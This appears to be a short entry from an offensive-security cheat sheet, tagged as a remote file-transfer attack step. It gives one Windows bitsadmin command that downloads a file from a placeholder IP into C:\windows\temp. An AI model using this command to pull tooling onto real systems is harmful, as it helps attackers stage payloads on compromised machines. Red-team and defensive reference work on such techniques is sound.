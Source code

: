 # Bitadmins

% windows, certutil

## Download file with bitsadmin
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
bitsadmin /Transfer myJob http://<ip>/<file|file.txt> <path|C:\windows\temp>
```
